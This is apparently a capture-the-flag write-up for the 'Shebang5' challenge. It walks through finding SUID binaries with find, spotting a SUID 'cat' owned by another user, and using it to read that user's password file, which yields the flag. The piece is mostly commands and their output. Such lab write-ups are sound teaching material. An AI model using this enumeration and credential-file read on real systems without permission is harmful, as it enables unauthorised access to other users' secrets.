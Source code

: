 # Shebang5

![Category](http://img.shields.io/badge/Category-Shebang-orange?style=for-the-badge) ![Points](http://img.shields.io/badge/Points-250-brightgreen?style=for-the-badge)

We connect to the shell using this command `ssh -p 1337 shebang5@cyberyoddha.baycyber.net` and the flag from the Shebang4 challenge as the password.

There is a clue for this chelleneg in the description which reads;

> "there is a very bad file on this Server. can yoU fInD it."

Notice the capitalisation of `U` `I` & `D` in the above clue;

That makes me think we're looking for a SUID binary.

```
shebang5@fe2149a30ae1:~$ find / -path /sys -prune -o -path /proc -prune -o -perm /4000
/var/tmp/hi/bash
find: '/var/cache/ldconfig': Permission denied
find: '/var/cache/apt/archives/partial': Permission denied
find: '/var/cache/private': Permission denied
find: '/var/log/private': Permission denied
find: '/var/lib/apt/lists/partial': Permission denied
find: '/var/lib/private': Permission denied
/var/cat
find: '/etc/ssl/private': Permission denied
find: '/run/lock': Permission denied
find: '/run/sudo': Permission denied
/proc
find: '/home/shebang4': Permission denied
find: '/home/shebang3': Permission denied
find: '/home/shebang2': Permission denied
find: '/home/shebang1': Permission denied
find: '/home/shebang0': Permission denied
/sys
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
find: '/root': Permission denied
```

`/var/cat` looks inteersting?.!

```
shebang5@fe2149a30ae1:~$ ls -al /var/cat
---s--x--x 1 shebang6 root 16992 Oct 14 20:51 /var/cat
```

OK, so "**shebang6**" is the owner of this file... and it has the SUID bit set on it! 

Now lets see if there are any files owened by 'shebang6';

```
shebang5@fe2149a30ae1:~$ find / -path /sys -prune -o -path /proc -prune -o -user shebang6
find: '/var/cache/ldconfig': Permission denied
find: '/var/cache/apt/archives/partial': Permission denied
find: '/var/cache/private': Permission denied
find: '/var/log/private': Permission denied
find: '/var/lib/apt/lists/partial': Permission denied
find: '/var/lib/private': Permission denied
/var/cat
/etc/passwords/shebang6
find: '/etc/ssl/private': Permission denied
find: '/run/lock': Permission denied
find: '/run/sudo': Permission denied
/proc
find: '/home/shebang4': Permission denied
find: '/home/shebang3': Permission denied
find: '/home/shebang2': Permission denied
find: '/home/shebang1': Permission denied
find: '/home/shebang0': Permission denied
/sys
find: '/root': Permission denied
```

We can see from the above output the file `/etc/passwords/shebang6`. That's got to be something?!

running the /var/cat binary against the file we get the following;

```
shebang5@fe2149a30ae1:~$ /var/cat /etc/passwords/shebang6 
CYCTF{W3ll_1_gu3$$_SU1D_1$_e@$y_fl@g$}
```

And there's the flag;

## CYCTF{W3ll_1_gu3$$_SU1D_1$_e@$y_fl@g$}
